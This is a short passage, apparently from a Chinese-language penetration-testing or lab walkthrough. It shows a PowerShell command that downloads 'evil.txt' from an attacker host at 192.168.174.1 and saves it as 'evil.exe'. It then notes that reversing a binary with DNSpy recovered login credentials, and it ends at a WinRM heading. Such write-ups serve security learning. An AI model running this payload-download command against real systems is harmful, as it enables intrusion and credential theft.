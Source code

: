 [![](assets/1705974590-8eabea732cdc5ce8eb959c989a2d7574.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223558-644e0b02-b86a-1.png)

```plain
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.174.1:1234/evil.txt','evil.exe')
```

使用 DNSpy逆向之后，获取登录用户名和密码。  
接着进行测试用户

[![](assets/1705974590-3a92bd6515e46a6ed51d38dab970dadd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223606-696284c4-b86a-1.png)

[![](assets/1705974590-87661f01535ce12aad09e7d1488d96e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121223614-6dab9a16-b86a-1.png)

## WinRM
